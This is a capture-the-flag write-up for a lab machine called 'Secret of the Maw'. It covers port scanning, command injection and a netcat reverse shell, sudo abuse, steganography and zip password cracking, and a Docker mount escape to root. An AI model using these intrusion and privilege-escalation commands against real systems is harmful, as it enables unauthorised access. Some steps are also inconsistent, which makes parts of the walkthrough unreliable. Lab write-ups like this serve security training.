


# CTF: Secret of the Maw




## Description

> Uncover the secrets of the maw, and don't get caught!

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-20 10:26 BST
Nmap scan report for ip-10-10-118-193.eu-west-1.compute.internal (10.10.118.193)
Host is up (0.0060s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:81:96:FF:41:9D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

The target machine has three open ports, 22, 21 and 80. Port 21 is running an FTP server. Let's connect to the FTP server.

We go to the 80 port :

`http://$IP`

We see a website with a gif :



We can use gobuster to find hidden directories :

```
gobuster dir --url http://$IP -w Tools/wordlists/dirbuster/directory-list-2.3-small.txt
```

Results :

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.118.193
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/20 10:31:03 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/discrete (Status: 301)
Progress: 46295 / 87665 (52.81%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/20 10:31:10 Finished
===============================================================
```

We go to the `/discrete` directory :

`http://$IP/discrete`

We see a page with a gif and a input


If we try to put a random input, we see nothing happens.
But if we put linux commands, we are redirected to a page saying "You weren't discrete ! Hide quickly or he's going to find you!"

We have to do a reverse shell to get the user flag.  
http://localhost:7778

We can use the following command :

**In the attacker machine :**

```
nc -lvnp 9001
```

**In the target website :**

```
echo « BASE64 » | base64 —decode
```

We do `sudo -l` to see the sudo rights of the user.

```bash
User www-data may run the following commands on the-maw:
    (six) NOPASSWD: /home/six/.musicbox
```

We can execute the `/home/six/.musicbox` file as the user
```bash
sudo -u six /home/six/.musicbox
```

We are connected to `six` user. We have the user flag in the `/home/six` directory.

### Root Flag

With multiple ways, we find in the `/var/www` directory a folder named `files` with multiple files 

```bash
total 28
drwxr-xr-x 3 root root 4096 Jan 21  2022 .
drwxr-xr-x 4 root root 4096 Jan 21  2022 ..
-rw-r--r-- 1 root root  304 Jan 21  2022 account.php
-rw-r--r-- 1 root root  472 Jan 21  2022 efce5bb6c4a73bf05bc66ab889712230.php
drwxr-xr-x 2 root root 4096 Jan 21  2022 images
-rw-r--r-- 1 root root 1225 Jan 21  2022 index.php
-rw-r--r-- 1 root root  478 Jan 21  2022 style.css
```

When we ceck files in the `efce5bb6c4a73bf05bc66ab889712230.php` file, we see the following code :

```HTML
<br>
<h1>Find what's inside the music box !</h1>
```

We can see that the image `musicbox.jpg` is in the `images` directory. We can create an python server to download the image.

```bash
python3 -m http.server 1010
```

We can download the image using the following command :

```bash
wget http://$IP:1010/images/musicbox.jpg
```

We have to check the image for any hidden data. We can use `stegcracker` to check for hidden data.

```bash
stegcracker musicbox.jpg
```

Results :

```bash
No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'musicbox.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: ******
Tried 1989 passwords
Your file has been written to: musicbox.jpg.out
******
```

We can use `steghide` to extract the hidden data.

```bash
steghide extract -sf musicbox.jpg
```
We have now a zip file named `musicbox.zip`. We see information about a `musicbox` file in the `musicbox.zip` file.

```bash
zipinfo musicbox.zip
Zip file size: 747 bytes, number of entries: 1
-rw-r--r--  3.0 unx     1210 TX defN 22-Jan-21 12:48 source_code.php
```

We can extract the `source_code.php` file using the following command :

```bash
unzip musicbox.zip
```
Sorry but the file is password protected. We can use `zip2john` to crack the password.

```bash
zip2john musicbox.zip > musicbox.hash

john musicbox.hash --wordlist=rockyou.txt

*********      (backup.zip/source_code.php)
```

We can extract the `source_code.php` file using the following command :

```bash
unzip musicbox.zip
```

We can see the following code in the `source_code.php` file :

```HTML
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit">
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "***********")
		{
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Mono!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

We can see that the password is encoded in base64. We can decode the password using the following command :

```bash
echo "***********" | base64 --decode
```

We can now login in ssh using the username `Mono` and the password `***********`.

```bash
ssh Mono@$IP
```

We can use `linpeas` to find any vulnerabilities in the system.

We see we have Docker installed in the system. The box is in the theme of `Privilege Escalation` so we can check for any Docker vulnerabilities.

We can use the following command to check for any Docker vulnerabilities on [GTFOBins](https://gtfobins.github.io/).

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We can now access the root directory and read the `root.txt` file.

```bash
cat /root/root.txt
```

**Well done! You have successfully completed the challenge!**